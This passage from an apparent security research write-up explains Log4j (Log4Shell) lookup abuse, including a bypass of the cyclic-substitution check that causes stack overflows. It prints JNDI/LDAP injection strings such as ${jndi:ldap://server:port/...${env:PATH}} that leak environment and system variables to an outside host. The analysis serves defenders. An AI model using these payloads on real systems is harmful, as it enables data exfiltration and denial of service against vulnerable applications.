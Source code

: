 For example, attackers can send an entry `{$event:Message}` that will become a log entry which looks something like `Received message {$event:Message}`. When this variable gets expanded, its value will again become `Received message {$event:Message}` (see the EventLookup plugin). Then the parser will encounter the variable `{$event:Message}` again and expand it again into the original message – this would eventually lead to infinite loops. The method contains a check for infinite loops called `checkCyclicSubstitution()` which will throw an exception for scenarios like this:
 ```Java
	/**
     * Checks if the specified variable is already in the stack (list) of variables.
     *
     * @param varName  the variable name to check
     * @param priorVariables  the list of prior variables
     */
    private void checkCyclicSubstitution(final String varName, final List<String> priorVariables) {
        if (!priorVariables.contains(varName)) {
            return;
        }
        final StrBuilder buf = new StrBuilder(BUF_SIZE);
        buf.append("Infinite loop in property interpolation of ");
        buf.append(priorVariables.remove(0));
        buf.append(": ");
        buf.appendWithSeparators(priorVariables, "->");
        throw new IllegalStateException(buf.toString());
    }
```
 
However, this check may be easily be circumvented by sending `${whetever:${event:Message}`. In this case, the check will not detect an infinite loop, and we get a stack overflow exception. In our particular test application this exception has been properly handled, however, it might no be so in other applications.

Attackers can also access sensitive data using other plugins such as `${env` (see [EnvironmentLookup](https://logging.apache.org/log4j/2.x/manual/lookups.html#EnvironmentLookup)). For example, passing the following variables allows the attacker to see the contents of the PATH environment variable on the machine that runs a vulnerable application:
`${jndi:ldap://server:port/Basic/Command/${env:PATH}}`. Similarly to that, [system variables](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html) and [Java variables](https://logging.apache.org/log4j/2.x/manual/lookups.html#JavaLookupw) such as OS type and version, architecture, username and sensitive paths can be leaked by injecting `${jndi:ldap://server:port/Basic/Command/${sys:user.name}}`, `${jndi:ldap://server:port/Basic/Command/${sys:os.version}}`, `${jndi:ldap://server:port/Basic/Command/${java:os}}` and similar commands.
 
An example of the `${env` variable usage in the wild was provided by [Sean Gallagher of Sophos](https://news.sophos.com/en-us/2021/12/12/log4shell-hell-anatomy-of-an-exploit-outbreak/).

We believe that, apart from JNDI, there are multiple sensitive plugins that can be used by attackers, including, but not limited to `${main` , `${ctx`, `${env`, `${mdc`, `${spring`, `${sys`, `${web`, `${k8s`, `${java`, `${docker`, `${map`. To limit the potential exposure, such plugins must be disabled if not used (see [Log4j Configuration](https://logging.apache.org/log4j/2.x/manual/configuration.html)). The effects might range from information disclosure to a DoS.


New exploit obfuscation by Forescout Research Labs
==================================================
